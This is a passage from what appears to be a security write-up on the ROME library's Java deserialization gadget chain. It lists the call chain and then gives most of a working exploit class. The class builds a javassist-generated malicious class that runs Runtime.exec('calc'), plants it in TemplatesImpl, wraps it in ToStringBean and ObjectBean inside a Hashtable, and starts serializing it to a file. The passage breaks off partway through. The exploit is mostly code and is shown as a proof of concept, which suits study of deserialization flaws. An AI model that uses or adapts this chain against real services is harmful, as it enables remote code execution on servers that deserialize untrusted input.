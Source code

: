 ```plain
TemplatesImpl.getOutputProperties()
ToStringBean.toString(String)
ToStringBean.toString()
EqualsBean.beanHashCode()
EqualsBean.hashCode()
ObjetBean.hashCode()
HashTable.reconstitutionPut()
HashTable.readObject(ObjectInputStream)
```

### EXP

```plain
package RomeSec;

import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;
import javassist.CtClass;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Hashtable;

public class HashTableExp {

    public static void main(String[] args) throws Exception{
        String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        String TemplatesImpl="com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

        // 创建恶意类
        ClassPool classPool = ClassPool.getDefault();
        classPool.appendClassPath(AbstractTranslet);
        CtClass ctClass = classPool.makeClass("cccc");
        ctClass.setSuperclass(classPool.get(AbstractTranslet));
        ctClass.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"calc\");");
        byte[] bytes = ctClass.toBytecode();

        // 创建TemplatesImpl对象
        Object templateImpl = Class.forName(TemplatesImpl).getDeclaredConstructor(new Class[]{}).newInstance();
        setFiled(templateImpl, "_bytecodes", new byte[][]{bytes});
        setFiled(templateImpl, "_name", "test");
        setFiled(templateImpl, "_tfactory", null);

        // 创建ToStringBean对象
        ToStringBean toStringBean = new ToStringBean(Templates.class, templateImpl);
        // 创建ObjectBean对象
        ObjectBean objectBean = new ObjectBean(ToStringBean.class, toStringBean);
        setFiled(objectBean,"_toStringBean", null);
        setFiled(objectBean, "_cloneableBean", null);

        // 创建HashTable
        Hashtable hashtable = new Hashtable();
        hashtable.put(objectBean, "test");

        // 序列化
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("HashTable.bin"));
```